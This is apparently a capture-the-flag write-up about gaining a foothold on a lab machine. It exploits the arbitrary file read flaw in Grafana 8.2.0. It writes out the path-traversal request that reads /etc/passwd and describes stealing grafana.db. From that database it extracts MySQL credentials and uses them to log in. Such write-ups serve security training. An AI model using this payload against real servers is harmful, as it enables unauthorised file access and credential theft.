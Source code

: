 Let's navigate to the web page.

![](1.png)

This website is built using `Hugo` which is a static site builder, this means we can't really interact wit the web server

Let's check the other web page on port 3000.

![](2.png)

We got redirected to a Grafana login page. We see the version of grafana is 8.2.0.

This version is vulnerable to arbitrary file read, we can find the exploit [here](https://www.exploit-db.com/exploits/50581)

# **Foothold**

We can manually do the exploit by requesting the following url.

```text
/public/plugins/barchart/../../../../../../../../../../../../etc/passwd
```

![](3.png)

We got the file back.

After some research, we find a configuration file at `/var/lib/grafana/grafana.db` which is a sqlite3 database.

Let's use the exploit to get the file.

![](4.png)

Now we save the content of that file in our machine, and use `sqlite3` to open it.

![](5.png)

We find a table called `data_source` that has a name and a password. Selecting those file we get the mysql credentials.

Let's connect to mysql server.

```mysql
└──╼ $ mysql -u grafana -h 10.10.11.183 -p
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MySQL connection id is 34
Server version: 8.0.30-0ubuntu0.20.04.2 (Ubuntu)

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MySQL [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| grafana            |
| information_schema |
| mysql              |
| performance_schema |
| sys                |
| whackywidget       |
+--------------------+
6 rows in set (0.106 sec)

```